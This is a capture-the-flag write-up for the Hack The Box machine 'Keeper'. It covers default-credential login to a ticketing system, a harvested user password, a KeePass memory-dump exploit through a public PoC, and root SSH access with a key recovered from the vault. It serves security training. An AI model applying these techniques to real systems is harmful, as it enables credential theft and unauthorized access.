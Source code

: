 ```yaml
---
Title: Keeper HTB
Rating: Easy
OS: Linux
---
```

# Keeper HTB

We'll start with a basic nmap scan across all ports:
```bash

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The base web page has this link, the URL is redirecting to:
`http://tickets.keeper.htb/rt/`
[Keeper Web Page](Images/Keeper_HTB/Screenshot_2025-01-31_01-06-23.png)

I'll dump the domain name into the `/etc/hosts` file:
`110.10.11.227    tickets.keeper.htb keeper.htb`

[Keeper Ticket Page](Images/Keeper_HTB/Screenshot_2025-01-31_01-12-34.png)

We can sign in using the default credentials of `root` and `password`
Checking through the tickets, there's one open about a KeePass issue on the users Windows box
[Open_Ticket](Images/Keeper_HTB/Open_Tickets.png)

Some further poking around, we can see that the user Inorgaard has their user password in the profile:
[Inorgaard user](Images/Keeper_HTB/Inorgaard.png)

Once we're on this box, we'll grab two files that were alluded to in the ticket:
```bash
lnorgaard@keeper:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.37 - - [31/Jan/2025 08:31:03] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:08] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:26] "GET /KeePassDumpFull.dmp HTTP/1.1" 200 -
```

A quick google on KeePass memory leak shows a common CVE from back in 2023.
I'll grab this Python3 PoC designed for the CVE and run it against the crash file we received:
https://github.com/z-jxy/keepass_dump

```bash
└─$ python3 keepass_dump.py -f KeePassDumpFull.dmp --recover --debug -o out.txt
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
---snip---
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
[?] Recovering...
[-] Couldn't verify plaintext match in dump for: dgrd med flde
[*] Saved 1 combinations to out.txt
``` 

The string doesn't make much sence, but I'll copy it into Google to see other common references.
We get a close match to a Danish red berry pudding (I'm assuming our compromised RT name is also Danish).
`Rødgrød med fløde` 

I'll use this as the Master Password to access the passcode database that we copied before and get access.

Under the Network folder, we have an entry for `keeper.htb (Ticketing Server)` that has an SSH RSA key in the comments.
I'll save this to a file on my machine, and use that along with the password to try get a root session to the box

Before we can do this, we'll need to convert the key from the PuttyGen format to OpenSSH:
`puttygen puttyKey.ppk -O private-openssh -o privKey` 

Now we can use it to establish our connection:

```bash
└─$ ssh -i privKey root@10.10.11.227 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# cat /root/root.txtbash
```
